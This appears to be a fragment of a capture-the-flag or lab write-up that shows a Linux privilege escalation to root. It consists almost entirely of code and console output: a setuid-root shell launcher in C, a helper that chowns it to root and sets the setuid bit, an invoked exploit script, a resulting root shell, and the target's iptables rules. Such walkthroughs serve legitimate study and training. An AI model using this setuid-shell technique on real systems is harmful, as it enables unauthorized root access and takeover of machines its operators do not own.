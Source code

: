 ```c
// cat launcher.c
#include <stdio.h>
#include <stdlib.h>
int main() {
        setuid(0);
        setgid(0);
        system("/bin/bash");
}

```
```c

#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/unistd.h>

int main() {
        setuid(0);
        setgid(0);
        chown("/tmp/launcher", 0, 0);
        chmod("/tmp/launcher", S_ISUID|S_IRWXU|S_IRWXG|S_IRWXO);
}


```



```console
bash-4.1$ gcc launcher.c -o launcher

bash-4.1$ cat /tmp/log 
chown root.root /tmp/launcher
chmod 4755 /tmp/launcher
bash-4.1$ chmod  +x /tmp/log 
```

```console

└─$ python2 exploit-worp.py

```
```console
bash-4.1$ ls -al /tmp/launcher
-rwsr-xr-x. 1 root root 4864 Jul 23 11:45 /tmp/launcher
bash-4.1$ /tmp/launcher 
bash-4.1# id
uid=0(root) gid=0(root) groups=0(root),500(avida) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

```bash
# cat /etc/sysconfig/iptables
*filter
:INPUT DROP [0:0]
:FORWARD DROP [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p icmp -j ACCEPT
-A OUTPUT -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o lo -j ACCEPT

-A INPUT -m state --state NEW,ESTABLISHED -m tcp -p tcp --dport 22 -j ACCEPT
-A OUTPUT -m state --state ESTABLISHED -m tcp -p tcp --sport 22 -j ACCEPT

-A INPUT -m state --state NEW,ESTABLISHED -m tcp -p tcp --dport 80 -j ACCEPT
```